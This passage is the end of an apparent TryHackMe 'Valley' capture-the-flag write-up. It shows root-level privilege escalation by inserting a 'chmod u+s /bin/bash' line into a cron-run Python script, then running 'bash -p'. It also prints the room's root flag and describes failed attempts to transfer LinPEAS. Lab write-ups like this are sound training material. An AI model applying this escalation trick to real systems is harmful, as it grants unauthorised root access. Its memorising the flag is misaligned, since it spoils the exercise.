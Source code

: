 - Since we can edit that file, why don't we trying using it to spawn a root shell? We can do that by adding the following syntax to the top of the script:
```
import os

os.system("chmod u+s /bin/bash")
```

- Now we can wait a little bit for the cronjob to run. After a minute, we can enter `bash -p` into our terminal and, provided everything went the way it should've, we will see the following:
```
valley@valley:/$ bash -p
bash-5.0# whoami
root
bash-5.0# 
```

- Now all we have to do is `cat /root/root.txt` and we will get the flag:
	- `root.txt` - THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
## Rabbit Holes
- I spent awhile trying to get [LinPEASS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) over onto the machine for some automated enumeration, but I couldn't pull it down directly with cURL since it wasn't installed on the machine and I wasn't root so I couldn't download it. Instead, I downloaded it onto my attacking machine and tried to host it on a simple python webserver and use `wget` to pull it over, but that didn't work either. 
- When trying to crack the hash found in the `strings.txt` file, I kept adding the hexadecimal text that was found underneath it into the string for cracking rather than just the `e6722920bab2326f8217e4`.
- I kept trying to pair the cracked password with usernames like `v0ida` or `k0rHh`, which are strings found near the password hash to successfully authenticate to the `valleyAuthenticator` file. That wasn't needed, since there was another user account on the box called `valley` that hadn't been touched yet. 
